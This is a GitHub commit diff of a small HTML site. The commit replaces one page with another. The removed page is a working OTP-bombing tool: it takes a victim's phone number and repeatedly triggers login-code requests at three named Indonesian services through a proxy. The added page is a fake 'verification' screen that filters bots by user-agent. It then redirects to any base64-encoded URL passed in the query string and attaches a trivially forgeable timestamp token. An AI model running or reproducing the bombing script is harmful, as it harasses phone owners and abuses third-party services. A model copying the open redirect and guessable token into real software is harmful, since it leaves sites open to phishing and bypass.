

Before and after one commit to candratrirama-cell/Romash, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (324-964 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,91 +3,189 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>OTP PROTOCOL V5</title>
+    <title>GUARDIANSITES - Verification System</title>
     <style>
-        :root { --main: #00FF41; --bg: #0a0a0a; }
-        body { background: var(--bg); color: var(--main); font-family: monospace; display: flex; justify-content: center; padding: 20px; }
-        .terminal { width: 100%; max-width: 400px; border: 2px solid var(--main); padding: 20px; box-shadow: 0 0 10px var(--main); }
-        input { width: 100%; padding: 10px; background: #111; border: 1px solid var(--main); color: var(--main); margin-bottom: 10px; outline: none; }
-        button { width: 100%; padding: 10px; background: var(--main); color: #000; border: none; font-weight: bold; cursor: pointer; margin-bottom: 5px; }
-        button:disabled { background: #333; color: #666; }
-        #log { height: 150px; overflow-y: auto; border-top: 1px solid #333; margin-top: 10px; font-size: 11px; padding-top: 10px; }
-        .green { color: var(--main); }
-        .red { color: #ff3131; }
+        :root {
+            --bg: #ffffff;
+            --accent: #00FF66; /* Hijau Stabilo */
+            --border: 4px solid #000;
+        }
+
+        body {
+            background-color: #f0f0f0;
+            font-family: 'Arial Black', sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+        }
+
+        /* Container Neo-Brutalism */
+        .card {
+            background: var(--bg);
+            border: var(--border);
+            box-shadow: 10px 10px 0px #000;
+            padding: 30px;
+            width: 90%;
+            max-width: 400px;
+            text-align: center;
+        }
+
+        h1 { font-size: 24px; text-transform: uppercase; margin-bottom: 10px; }
+        p { font-size: 14px; font-family: monospace; color: #555; }
+
+        /* Progress Bar */
+        .progress-box {
+            width: 100%;
+            height: 25px;
+            border: var(--border);
+            background: #eee;
+            margin: 20px 0;
+            position: relative;
+            overflow: hidden;
+        }
+        #bar {
+            width: 0%;
+            height: 100%;
+            background: var(--accent);
+            transition: width 0.2s;
+        }
+
+        /* BinCaptcha Section */
+        #captcha-zone {
+            display: none;
+            margin-top: 15px;
+            padding: 15px;
+            border-top: 3px dashed #000;
+        }
+        .captcha-display {
+            background: #000;
+            color: var(--accent);
+            font-size: 24px;
+            padding: 10px;
+            margin-bottom: 10px;
+            letter-spacing: 5px;
+            font-style: italic;
+            text-decoration: line-through;
+        }
+        input {
+            width: 80%;
+            padding: 10px;
+            border: var(--border);
+            font-weight: bold;
+            text-align: center;
+            margin-bottom: 10px;
+        }
+
+        button {
+            background: var(--accent);
+            border: var(--border);
+            padding: 10px 20px;
+            font-weight: bold;
+            cursor: pointer;
+            box-shadow: 4px 4px 0 #000;
+        }
+        button:hover { transform: translate(-2px, -2px); box-shadow: 6px 6px 0 #000; }
+
+        .footer { font-size: 10px; margin-top: 20px; color: #888; }
     </style>
 </head>
 <body>
 
-<div class="terminal">
-    <h3 style="text-align:center">CORE EXPLOIT V5</h3>
-    <hr style="border: 1px solid #333; margin: 10px 0;">
-    <input type="text" id="phone" placeholder="628xxxxxxxxxx">
-    <button id="startBtn" onclick="start()">START SESSION</button>
-    <button id="stopBtn" onclick="stop()" disabled>STOP</button>
+<div class="card">
+    <h1>GUARDIANSITES</h1>
+    <p id="status-msg">Menganalisis keamanan browser...</p>
 
-    <div id="log">SYSTEM READY...</div>
+    <div class="progress-box" id="loader-box">
+        <div id="bar"></div>
+    </div>
+
+    <div id="captcha-zone">
+        <p style="color:red; font-size: 12px;">VERIFIKASI DIPERLUKAN</p>
+        <div class="captcha-display" id="code-box">B1N-XX</div>
+        <input type="text" id="user-input" placeholder="Ketik kode diatas">
+        <br>
+        <button onclick="validateCaptcha()">MASUK KE WEB</button>
+    </div>
+
+    <div class="footer">Dev by @maramadhona | 2026 Protection</div>
 </div>
 
 <script>
-    let isRunning = false;
-    let timer = null;
+    let progress = 0;
+    const bar = document.getElementById('bar');
+    const msg = document.getElementById('status-msg');
+    const captchaZone = document.getElementById('captcha-zone');
+    const loaderBox = document.getElementById('loader-box');
 
-    const apiList = [
-        { name: "DuniaGames", url: "https://duniagames.co.id/api/bazaar/v1/auth/otp", body: (n) => ({ phoneNumber: n, otpType: "login" }) },
-        { name: "Rumah123", url: "https://www.rumah123.com/api/v1/user/otp", body: (n) => ({ phone: n, type: "login" }) },
-        { name: "Cermati", url: "https://www.cermati.com/api/v1/resend_otp", body: (n) => ({ phone: n, type: "login" }) }
-    ];
+    let generatedCode = "";
 
-    function writeLog(msg, type) {
-        const log = document.getElementById('log');
-        const color = type === 'success' ? 'green' : (type === 'error' ? 'red' : '');
-        log.innerHTML += `<div class="${color}">[${new Date().toLocaleTimeString()}] ${msg}</div>`;
-        log.scrollTop = log.scrollHeight;
-    }
+    // 1. Jalankan Scanning Otomatis (5 Detik)
+    const scan = setInterval(() => {
+        progress += 2;
+        bar.style.width = progress + "%";
 
-    async function fire() {
-        if (!isRunning) return;
-        const num = document.getElementById('phone').value;
-        const api = apiList[Math.floor(Math.random() * apiList.length)];
+        if (progress === 40) msg.innerText = "Memeriksa IP & User-Agent...";
+        if (progress === 80) msg.innerText = "Validasi One-Time Token...";
 
-        writeLog(`ATTEMPTING: ${api.name}...`);
+        if (progress >= 100) {
+            clearInterval(scan);
+            processAccess();
+        }
+    }, 100);
 
-        try {
-            // Kita menembak ke proxy internal Vercel (/api/proxy)
-            const res = await fetch('/api/proxy', {
-                method: 'POST',
-                headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({
-                    targetUrl: api.url,
-                    body: api.body(num)
-                })
-            });
+    function processAccess() {
+        const ua = navigator.userAgent.toLowerCase();
+        // Cek Bot Dasar (Python, Scraper, Headless)
+        const isBot = /bot|python|crawl|headless|selenium|puppeteer/i.test(ua);
 
-            const result = await res.json();
-            if (result.success) writeLog(`DELIVERED: ${api.name}`, 'success');
-            else writeLog(`REJECTED: ${api.name}`, 'error');
-
-        } catch (e) {
-            writeLog("CONNECTION ERROR", "error");
+        if (isBot) {
+            showCaptcha();
+        } else {
+            // User asli? Kirim Token otomatis
+            msg.innerText = "Aman! Mengalihkan...";
+            setTimeout(sendToken, 1000);
         }
     }
 
-    function start() {
-        if (document.getElementById('phone').value.length < 10) return alert("Nomor tidak valid!");
-        isRunning = true;
-        document.getElementById('startBtn').disabled = true;
-        document.getElementById('stopBtn').disabled = false;
-        writeLog("SESSION STARTED");
-        fire();
-        timer = setInterval(fire, 20000); // 20 detik agar aman
+    function showCaptcha() {
+        loaderBox.style.display = 'none';
+        captchaZone.style.display = 'block';
+        msg.innerText = "Aktivitas mencurigakan terdeteksi.";
+
+        // Generate BinCaptcha 6 digit
+        generatedCode = Math.random().toString(36).substring(2, 8).toUpperCase();
+        document.getElementById('code-box').innerText = generatedCode;
     }
 
-    function stop() {
-        isRunning = false;
-        clearInterval(timer);
-        document.getElementById('startBtn').disabled = false;
-        document.getElementById('stopBtn').disabled = true;
-        writeLog("SESSION TERMINATED");
+    function validateCaptcha() {
+        const input = document.getElementById('user-input').value.toUpperCase();
+        if (input === generatedCode) {
+            sendToken();
+        } else {
+            alert("Kode salah! Kamu scraper ya?");
+            location.reload();
+        }
+    }
+
+    // 2. Kirim Token Satu Kali Pakai (OTP)
+    function sendToken() {
+        const urlParams = new URLSearchParams(window.location.search);
+        const fromBase64 = urlParams.get('from');
+
+        if (fromBase64) {
+            const targetUrl = atob(fromBase64);
+            const ts = Math.floor(Date.now() / 1000); // Waktu sekarang
+
+            // Generate Token (Gunakan Key yang sama di Web Utama)
+            const token = btoa("MARA-SECURE-" + ts);
+
+            // Pengalihan Otomatis
+            window.location.href = targetUrl + "?gs_token=" + token + "&ts=" + ts;
+        } else {
+            msg.innerText = "Error: Target URL tidak ditemukan.";
+        }
     }
 </script>
 
```
